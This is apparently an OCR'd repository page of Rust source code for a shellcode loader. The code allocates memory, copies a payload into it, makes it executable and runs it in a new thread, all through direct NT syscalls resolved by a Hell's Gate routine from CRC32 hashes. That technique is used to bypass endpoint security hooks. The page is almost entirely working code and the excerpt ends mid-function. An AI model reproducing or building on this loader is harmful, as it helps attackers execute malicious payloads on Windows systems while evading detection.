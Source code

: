``` rust
            let h_process: isize = -1;  // local process
            let h_thread: HANDLE = HANDLE::default();  
  
            // allocating memory  
            prepare_syscall(NT_ALLOCATE_VIRTUAL_MEMORY_CRC32);  
            let status: usize = run_direct_syscall(h_process, &mut p_address, 0, &mut s_payload, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);  
            assert_eq!(status, 0x00,"[!] NtAllocateVirtualMemory Failed With Error: {:x}", status);  
            assert!(!p_address.is_null(), "[!] NtAllocateVirtualMemory Returned Null Pointer");  
  
            // copying the payload  
            println!("[+] Allocated Memory At Address {:?}", p_address);  
            ptr::copy_nonoverlapping(PAYLOAD.as_ptr(), p_address as _, s_payload);  
  
            // changing memory protection  
            prepare_syscall(NT_PROTECT_VIRTUAL_MEMORY_CRC32);  
            let status: usize = run_direct_syscall(h_process, &mut p_address, &mut s_payload, PAGE_EXECUTE_READ, &old_protection);  
            assert_eq!(status, 0x00,"[!] NtProtectVirtualMemory Failed With Error: {:x}", status);  
  
            prepare_syscall(NT_CREATE_THREAD_EX_CRC32);  
            let status: usize = run_direct_syscall(&h_thread, THREAD_ALL_ACCESS, NULL64, h_process, p_address, NULL64, false as i32, NULL64, NULL64, NULL64, NULL64);  
            assert_eq!(status, 0x00,"[!] NtCreateThreadEx Failed With Error: {:x}", status);  
  
            println!("[+] Thread {} Created Of Entry: {:?} \n", GetThreadId(h_thread), p_address);  
  
            prepare_syscall(NT_WAIT_FOR_SINGLE_OBJECT_CRC32);  
            let status: usize = run_direct_syscall(h_thread, FALSE, NULL64);  
            assert_eq!(status, 0x00,"[!] NtWaitForSingleObject Failed With Error: {:x}", status);  
        }  
    }  
}
```

### lib.rs
``` rust
pub mod asm;  
pub use asm::run_direct_syscall;  
use asm::set_ssn;  
pub mod hells_gate;  
use hells_gate::{fetch_nt_syscall};  
  
/// Prepares a system call by fetching the NT syscall using the provided hash.  
///  
/// # Parameters  
///  
/// - `hash`: A 32-bit unsigned integer representing the hash value used to fetch the NT syscall.  
///  
/// # Panics  
///  
/// This function will panic if there is an error in fetching the NT syscall.  
/// The error message will be printed with the hash value.  
pub unsafe fn prepare_syscall(hash: u32) {  
    match fetch_nt_syscall(hash) {  
        Ok(syscall) => {  
            set_ssn(syscall.dw_ssn as usize);  
        },  
        Err(e) => {  
            panic!("[prepare_syscall] Error: {}", e);  
```